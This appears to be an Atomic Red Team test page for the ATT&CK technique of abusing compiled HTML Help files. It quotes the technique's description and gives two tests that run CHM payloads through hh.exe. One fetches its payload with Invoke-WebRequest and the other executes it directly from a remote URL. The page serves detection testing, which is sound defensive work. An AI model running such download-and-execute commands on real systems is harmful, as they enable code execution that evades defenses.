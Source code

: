 # T1223 - Compiled HTML File
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)
<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)

Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be delivered to a victim then triggered by [User Execution](https://attack.mitre.org/techniques/T1204). CHM execution may also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Compiled HTML Help Local Payload](#atomic-test-1---compiled-html-help-local-payload)

- [Atomic Test #2 - Compiled HTML Help Remote Payload](#atomic-test-2---compiled-html-help-remote-payload)


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1223&#92;src&#92;T1223.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{local_chm_file}
```




#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{local_chm_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{local_chm_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1223/src/T1223.chm" -OutFile "#{local_chm_file}"
```




<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1223/src/T1223.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{remote_chm_file}
```






<br/>
